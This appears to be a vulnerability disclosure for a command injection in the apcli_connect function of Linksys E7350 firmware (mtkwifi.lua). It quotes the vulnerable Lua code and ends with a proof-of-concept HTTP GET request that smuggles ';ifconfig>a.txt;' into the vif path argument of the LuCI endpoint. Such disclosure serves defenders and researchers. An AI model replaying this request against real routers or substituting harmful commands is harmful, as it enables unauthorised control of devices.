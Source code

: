 # Command injection vulnerability in apcli_connect function
### description
Vendor: linksys 

Version: linksysFW_E7350_V1.1.00.032_Prod_20220902_code.bin   

Detail: There is a command injection vulnerability in apcli_connect function in mtkwifi.lua

```
function apcli_connect(dev, vif)
 local dtrace = require "luci.debug";
 dtrace.trap_function_calls("apcli_connect");
    -- dev_vif can be
    --  1. mt7620.apcli0         # simple case
    --  2. mt7615e.1.apclix0     # multi-card
    --  3. mt7615e.1.2G.apclix0  # multi-card & multi-profile
    local devname,vifname = dev, vif
    debug_write("devname=", dev, "vifname=", vif)
    local profiles = mtkwifi.search_dev_and_profile()
    debug_write(profiles[devname])
    assert(profiles[devname])
    local cfgs = mtkwifi.load_profile(profiles[devname])
    cfgs.ApCliEnable = "1"
    __mtkwifi_save_profile(cfgs, profiles[devname], true)
    os.execute("ifconfig "..vifname.." up") ---------------------------->  here
```

We use Burpsuite to attack, the effect is as follows.
![图片](https://github.com/user-attachments/assets/996f6494-a645-407a-a328-3d502b7ad7d5)

![图片](https://github.com/user-attachments/assets/329e2f84-e79f-4f3d-af33-6947202b0dd2)

Entry: /admin/mtk/wifi/apcli_connect/

! attention
To expolit successfully, we need the correct devname to pass the check. 
```
    local profiles = mtkwifi.search_dev_and_profile()
    debug_write(profiles[devname])
    assert(profiles[devname])  ----------------->
```
here we use dev "MT7915D.1.1"


### poc
```
GET /cgi-bin/luci/admin/mtk/wifi/apcli_connect/MT7915D.1.1/;ifconfig>a.txt; HTTP/1.1
Host: 172.17.0.2
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Authorization: Basic YWRtaW46
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i


```
Here we set the arguments "dev" as "MT7915D.1.1" and vif as ";ifconfig>a.txt;", and there will be a file named "a.txt" in /www/




